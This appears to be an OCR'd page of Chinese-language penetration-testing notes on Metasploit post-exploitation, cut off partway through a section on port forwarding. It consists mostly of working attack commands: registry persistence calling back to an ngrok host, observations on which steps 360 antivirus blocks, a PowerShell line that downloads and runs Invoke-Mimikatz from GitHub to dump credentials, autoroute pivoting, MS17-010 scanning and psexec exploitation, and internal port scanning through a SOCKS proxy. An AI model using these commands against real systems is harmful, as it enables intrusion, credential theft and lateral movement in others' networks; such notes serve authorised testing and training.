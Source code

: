 >
> ``run persistence -h`` 用于创建启动项启动，会创建注册表，创建文件。（X86_Linux 不支持此脚本）
>
> > run persistence -U -i 10 -p 10390 -r free.ngrok.cc 
>
> 会被 360 拦，-i 10 10 秒请求一次, 使用 powershell 执行也被监控而被 360 拦截
>
> meterpreter 的 ``run getgui -e`` 命令可以开启成功。360 会提示阻止
>
> ``Run metsvc -h`` ：用于创建服务，会创建 meterpreter 服务，并上传三个文件，使用-r参数可以卸载服务 ，被拦
>
> ### Msf powershell
>
> > meterpreter > load powershell
> >
> > meterpreter > powershell_shell
> >
> > PS > IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');
> >
> > Ps > Invoke-Mimikatz -DumpCreds
>
> ### Msf Router
>
> 2 个或多个路由之间，没有配置相应的路由表，不能访问，获得一台机器 shell session  添加路由，使 msf 可以在当前 shell session 下以被攻击机访问其他内网主机，
>
> > meterpreter > run get_local_subnets 
> >
> > meterpreter > run autoroute -s 172.17.0.0/16  添加路由
> >
> > meterpreter > run autoroute -p 				  查看路由
> >
> > meterpreter > run autoroute -d -s 172.17.0.0/16  删除
>
> MS17-010
>
> > meterpreter > background 
> >
> > msf exploit(multi/handler) > use auxiliary/scanner/smb/	smb_ms17_010 
> >
> > msf auxiliary(scanner/smb/smb_ms17_010) > set rhosts 172.17.0.0/24
> >
> > msf auxiliary(scanner/smb/smb_ms17_010) > set threads 50
> >
> > msf auxiliary(scanner/smb/smb_ms17_010) > run
>
> 先利用 ``exploit/windows/smb/ms17_010_psexec``，win10 旧版依旧可以，新版设置  smbuser，smbpass 即可
>
> ### Msf 扫描
>
> 经过上面设置路由即可使用以下 scan：
>
> > use auxiliary/scanner/portscan/syn
> >
> > use auxiliary/scanner/portscan/tcp
>
> proxychains 设置 socks4 为以下设置，即可在本地代理扫描
>
> > use auxiliary/server/socks4a
>
> ### Msf 端口转发 portfwd
>
> 将 192.168.1.2.100 内网转发到本地 4443 port，流量大不好用
>